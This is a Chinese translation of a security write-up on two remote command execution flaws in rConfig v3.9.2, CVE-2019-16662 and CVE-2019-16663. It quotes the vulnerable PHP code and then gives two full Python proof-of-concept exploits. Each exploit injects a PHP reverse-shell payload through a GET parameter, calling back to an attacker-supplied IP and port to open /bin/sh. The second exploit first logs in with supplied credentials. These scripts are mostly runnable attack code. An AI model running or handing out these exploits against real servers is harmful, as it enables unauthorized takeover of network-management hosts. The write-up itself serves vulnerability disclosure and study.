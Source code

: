 ## rConfig v3.9.2 RCE漏洞

## 0x00 前言

rConfig是一个开源网络设备配置管理解决方案，可以方便网络工程师快速、频繁管理网络设备快照。

我在rConfig的两个文件中找到了两个远程命令执行（RCE）漏洞，第一个文件为`ajaxServerSettingsChk.php`，攻击者可以通过`rootUname`参数发送精心构造的一个GET请求，触发未授权RCE漏洞。`rootUname`参数在源文件第2行中定义，随后会在第13行传递给`exec`函数。攻击者可以将恶意系统命令插入该参数中，在目标服务器上执行。该漏洞利用和发现过程比较简单，下文中我将介绍如何发现并利用该漏洞。

第二个漏洞位于`search.crud.php`文件中，存在RCE漏洞。攻击者可以发送精心构造的GET请求触发该漏洞，请求中包含两个参数，其中`searchTerm`参数可以包含任意值，但该参数必须存在，才能执行到第63行的`exec`函数。

我像往常一样想寻找RCE漏洞，因此我使用自己开发的一个[python脚本](https://github.com/mhaskar/RCEScanner)来搜索所有不安全的函数。

## 0x01 未授权RCE漏洞

运行脚本后，我看到了一些输出结果。检查文件后，我发现有个文件名为`ajaxServerSettingsChk.php`，具体路径为`install/lib/ajaxHandlers/ajaxServerSettingsChk.php`，部分代码如下：

```php
<?php
$rootUname = $_GET['rootUname'];    // line 2
$array = array();
/* check PHP Safe_Mode is off */
if (ini_get('safe_mode')) {
    $array['phpSafeMode'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;bad&amp;amp;quot;&amp;amp;gt;Fail - php safe mode is on - turn it off before you proceed with the installation&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;br/&amp;amp;gt;';
} else {
    $array['phpSafeMode'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;Good&amp;amp;quot;&amp;amp;gt;Pass - php safe mode is off&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
}

/* Test root account details */
$rootTestCmd1 = 'sudo -S -u ' . $rootUname . ' chmod 0777 /home 2&amp;amp;gt;&amp;amp;amp;1';    // line 12
exec($rootTestCmd1, $cmdOutput, $err);    // line 13
$homeDirPerms = substr(sprintf('%o', fileperms('/home')), -4);
if ($homeDirPerms == '0777') {
    $array['rootDetails'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;Good&amp;amp;quot;&amp;amp;gt;Pass - root account details are good &amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
} else {
    $array['rootDetails'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;bad&amp;amp;quot;&amp;amp;gt;The root details provided have not passed: ' . $cmdOutput[0] . '&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
}
// reset /home dir permissions
$rootTestCmd2 = 'sudo -S -u ' . $rootUname . ' chmod 0755 /home 2&amp;amp;gt;&amp;amp;amp;1';    // line 21
exec($rootTestCmd2, $cmdOutput, $err);    // line 22

echo json_encode($array);
```

## POC x1

```python
#!/usr/bin/python

# Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
# Date: 18/09/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-16662
# Vendor Homepage: https://rconfig.com/
# Software link: https://rconfig.com/download
# Version: v3.9.2
# Tested on: CentOS 7.7 / PHP 7.2.22

import requests
import sys
from urllib import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

if len(sys.argv) != 4:
    print "[+] Usage : ./exploit.py target ip port"
    exit()

target = sys.argv[1]

ip = sys.argv[2]

port = sys.argv[3]

payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

install_path = target + "/install"

req = requests.get(install_path, verify=False)
if req.status_code == 404:
    print "[-] Installation directory not found!"
    print "[-] Exploitation failed !"
    exit()
elif req.status_code == 200:
    print "[+] Installation directory found!"
url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

print "[+] Triggering the payload"
print "[+] Check your listener !"

requests.get(url_to_send, verify=False)

```

## POC x2

```python
#!/usr/bin/python

# Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
# Date: 18/09/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-16663
# Vendor Homepage: https://rconfig.com/
# Software link: https://rconfig.com/download
# Version: v3.9.2
# Tested on: CentOS 7.7 / PHP 7.2.22


import requests
import sys
from urllib import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning


requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

if len(sys.argv) != 6:
    print "[+] Usage : ./exploit.py target username password ip port"
    exit()

target = sys.argv[1]

username = sys.argv[2]

password = sys.argv[3]

ip = sys.argv[4]

port = sys.argv[5]

request = requests.session()

login_info = {
    "user": username,
    "pass": password,
    "sublogin": 1
}

login_request = request.post(
    target+"/lib/crud/userprocess.php",
     login_info,
     verify=False,
     allow_redirects=True
 )

dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


if dashboard_request.status_code == 200:
    print "[+] LoggedIn successfully"
    payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
    encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
    print "[+] triggering the payload"
    print "[+] Check your listener !"
    exploit_req = request.get(encoded_request)

elif dashboard_request.status_code == 302:
    print "[-] Wrong credentials !"
    exit()
```

### 原文： https://shells.systems/rconfig-v3-9-2-authenticated-and-unauthenticated-rce-cve-2019-16663-and-cve-2019-16662/ 

### 英译中： https://www.anquanke.com/post/id/189795 

